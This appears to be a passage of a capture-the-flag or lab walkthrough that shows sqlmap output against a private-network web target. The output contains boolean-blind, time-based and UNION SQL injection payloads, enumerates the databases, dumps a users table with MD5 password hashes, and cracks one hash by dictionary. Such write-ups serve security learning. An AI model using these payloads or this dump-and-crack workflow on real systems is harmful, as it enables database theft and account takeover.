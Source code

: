 ```shell
[11:24:36] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2' AND 8387=8387 AND 'Bfsj'='Bfsj

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 6699 FROM (SELECT(SLEEP(5)))wecl) AND 'FjsV'='FjsV

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=2' UNION ALL SELECT CONCAT(0x71786a7071,0x787a4b6c6d6842516a4e6961534d54744d6572486d6766716f7772564978626b436b4864476d6846,0x717a706a71),NULL,NULL-- -
---
[11:24:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:24:36] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] nebuladb

[11:24:36] [INFO] fetched data logged to text files under '/home/synix/.local/share/sqlmap/output/192.168.209.4'

[*] ending @ 11:24:36 /2024-09-02/
```
- Got database called `nebuladb`, lets try to dump

```shell
[11:25:24] [INFO] table 'nebuladb.centrals' dumped to CSV file '/home/synix/.local/share/sqlmap/output/192.168.209.4/dump/nebuladb/centrals.csv'
[11:25:24] [INFO] fetching columns for table 'users' in database 'nebuladb'
[11:25:24] [INFO] fetching entries for table 'users' in database 'nebuladb'
[11:25:24] [INFO] recognized possible password hashes in column 'password'
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[11:25:24] [INFO] using hash method 'md5_generic_passwd'
[11:25:24] [INFO] resuming password '999999999' for hash 'c8c605999f3d8352d7bb792cf3fdb25b' for user 'pmccentral'
[11:25:24] [INFO] starting dictionary-based cracking (md5_generic_passwd)
Database: nebuladb                                                                                                                                                    
Table: users
[7 entries]
+----+----------+----------------------------------------------+-------------+
| id | is_admin | password                                     | username    |
+----+----------+----------------------------------------------+-------------+
| 1  | 1        | d46df8e6a5627debf930f7b5c8f3b083             | admin       |
| 2  | 0        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
| 3  | 0        | 5f823f1ac7c9767c8d1efbf44158e0ea             | Frederick   |
| 3  | 0        | 4c6dda8a9d149332541e577b53e2a3ea             | Samuel      |
| 5  | 0        | 41ae0e6fbe90c08a63217fc964b12903             | Mary        |
| 6  | 0        | 5d8cdc88039d5fc021880f9af4f7c5c3             | hecolivares |
| 7  | 1        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
+----+----------+----------------------------------------------+-------------+

[11:25:34] [INFO] table 'nebuladb.users' dumped to CSV file '/home/synix/.local/share/sqlmap/output/192.168.209.4/dump/nebuladb/users.csv'
[11:25:34] [INFO] fetching columns for table 'central' in database 'nebuladb'
[11:25:34] [INFO] fetching entries for table 'central' in database 'nebuladb'
```